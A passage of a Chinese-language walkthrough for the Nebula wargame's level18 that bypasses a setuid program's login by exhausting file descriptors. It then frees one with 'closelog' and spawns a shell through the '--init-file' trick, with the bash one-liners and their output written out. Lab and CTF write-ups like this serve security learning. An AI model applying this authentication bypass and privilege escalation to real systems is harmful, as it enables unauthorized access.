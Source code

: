 可以发现已经登录成功了。下面我们就要调用shell参数：

```bash
level18@nebula:/home/flag18$ python -c 'print "login level8\r\n"*1021+"shell\r\n"' | ~flag18/flag18 -d /tmp/dbg17 -vvv
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

利用资源极限这种方式，虽然绕过了登录，却没有办法再创建shell，不过幸好程序本身给我们提供了`closelog`，所以我们只需要创建1021个文件绕过登录，之后关闭1个句柄，再打开shell就可以了，于是构造如下命令：

```bash
python -c 'print "login level8\r\n"*1021+"closelog\r\nshell\r\n"' | ~flag18/flag18 -d /tmp/dbg17 -vvv
```

执行后shell返回：

```bash
flag18 -d /tmp/dbg17 -vvv
/home/flag18/flag18: -d: invalid option
Usage:	/home/flag18/flag18 [GNU long option] [option] ...
	/home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
```

这其实是sh本身的问题，因为它把后面的那些命令也认为是它的参数了，而它没有-d参数，所以报错。这里用`--init-file`参数可以让它忽略后面的参数。重新构造命令：

```bash
python -c 'print "login level18\r\n"*1021+"closelog\r\nshell\r\n"' | ~flag18/flag18 --init-file -d /tmp/dbg17 -vvv &>/tmp/log17
```

这里我把整个shell中的输出都放到/tmp/log17中是为了便于查看，shell本身窗口太小了。查阅log17文件发现：

```bash
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
/tmp/dbg17: line 1: Starting: command not found
/tmp/dbg17: line 2: got: command not found
/tmp/dbg17: line 3: attempting: command not found
```